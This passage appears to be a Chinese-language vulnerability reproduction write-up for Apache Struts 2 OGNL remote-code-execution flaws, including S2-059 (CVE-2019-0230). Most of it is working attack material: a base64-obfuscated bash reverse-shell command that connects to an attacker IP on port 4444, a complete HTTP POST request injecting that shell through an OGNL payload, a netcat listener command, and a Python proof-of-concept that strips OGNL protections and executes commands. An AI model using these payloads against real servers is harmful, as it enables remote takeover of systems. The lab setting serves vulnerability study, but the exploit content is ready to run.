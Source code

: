 在 Base64 编码的帮助下，下面的转换器可以帮助减少这些问题。它可以通过调用 Bash 或 PowerShell 再次使管道和重定向变得更好，并且还确保参数中没有空格。
http://www.jackson-t.ca/runtime-exec-payloads.html
Default
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzQvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}

将上面命令放入到要执行命令的括号里面。
反弹shell请求
Default
POST /index.action HTTP/1.1
Host: 192.168.182.145:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 922
 
------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"
 
%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzQvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--

然后再攻击者服务器kali上
nc -lvvp 4444

S2-059 远程代码执行漏洞(CVE-2019-0230)

影响版本: Struts 2.0.0 – Struts 2.5.20
访问 http://ip:8080/?id=%25%7B233*233%7D，可以发现233*233的结果被解析到了id属性中：

通过如下Python脚本复现漏洞：
Default
import requests
 
url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
